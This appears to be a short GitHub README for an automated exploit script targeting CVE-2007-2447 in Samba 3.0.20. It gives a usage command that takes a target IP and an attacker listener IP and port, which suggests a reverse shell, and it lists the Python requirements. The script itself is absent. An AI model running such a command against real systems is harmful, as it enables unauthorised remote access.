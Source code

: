 # CVE-2007-2447

> Saikat Karmakar | Oct 14 : 2022

---

## Usage:

```bash
python3 exploit-smb-3.0.20.py -lh <your ip> -lp <your listner port> -t <target ip>
```

## requirements
```
pysmb
argparse
```





P.S. I'm not the author of this cve. I barely had a computer when this cve was created. I tried to create am automated script to exploit `CVE-2007-2447`
